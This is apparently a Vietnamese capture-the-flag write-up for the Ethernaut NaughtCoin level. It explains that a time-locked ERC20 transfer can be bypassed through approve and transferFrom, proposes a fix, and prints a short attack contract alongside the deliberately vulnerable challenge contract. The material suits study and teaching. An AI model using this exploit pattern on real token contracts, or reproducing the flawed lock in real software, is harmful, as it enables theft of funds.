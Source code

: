 ### Kết luận 
- Lỗ hổng: Hàm transfer bị khóa nhưng `player` vẫn có thể sử dụng hàm `approve` và `transferFrom` để chuyển tokens. (theo chuẩn ERC20).
- Cách phòng tránh: Modifier `lockTokens` cần được mở rộng để kiểm tra mọi hành động ảnh hưởng đến số dư của `player`, bao gồm cả `approve` và `transferFrom`.
- Hoặc có thể chặn trực tiếp trong hàm.
VD:
```solidity
function transferFrom(address sender, address recipient, uint256 amount) public override returns (bool) {
    if (sender == player) {
        require(block.timestamp > timeLock, "Tokens are locked.");
    }
    return super.transferFrom(sender, recipient, amount);
}

```
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
interface INaughtCoin is IERC20 {}
contract NaughtCoinAttack{
    INaughtCoin public victim;
    constructor (address challenge){
        victim = INaughtCoin(challenge);
    }
    function attack(address _player) public payable{
        require(victim.balanceOf(_player) > 0, "Player has no tokens to steal");
        victim.transferFrom(_player, address(this), victim.balanceOf(_player));
    }
    // Cần gọi hàm approve để cấp quyền trước khi tấn công ở hợp đồng NaughtCoin do hợp dồng tấn công k có quyền gọi hàm approve.
    // victim.approve(address(this), victim.balanceOf(msg.sender));
}
```
### Contract 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```
